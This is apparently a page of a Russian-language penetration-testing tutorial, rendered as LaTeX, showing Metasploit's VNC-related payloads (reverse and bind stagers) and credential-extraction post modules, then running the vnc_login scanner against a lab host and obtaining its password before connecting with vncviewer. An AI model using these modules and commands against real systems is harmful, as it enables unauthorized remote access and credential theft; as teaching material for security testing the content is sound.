 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
   payload/windows/x64/vncinject/bind_tcp                                normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Bind TCP Stager
   payload/windows/x64/vncinject/bind_tcp_uuid                           normal     Windows x64 VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_http                            normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_https                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_tcp                             normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   payload/windows/x64/vncinject/reverse_tcp_uuid                        normal     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_winhttp                         normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/reverse_winhttps                        normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
   post/multi/gather/remmina_creds                                       normal     UNIX Gather Remmina Credentials
   post/osx/gather/enum_chicken_vnc_profile                              normal     OS X Gather Chicken of the VNC Profile
   post/windows/gather/credentials/mremote                               normal     Windows Gather mRemote Saved Password Extraction
   post/windows/gather/credentials/vnc                                   normal     Windows Gather VNC Password Extraction

		\end{lstlisting}
		
		Запустим модуль auxiliary/scanner/vnc/vnc\_login:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 192.168.32.128
RHOSTS => 192.168.32.128
msf auxiliary(vnc_login) > exploit

[*] 192.168.32.128:5900 - Starting VNC login sweep
[+] 192.168.32.128:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		Запустим vncviewer и войдем при помощи узнанного пароля:
		
\end{document}
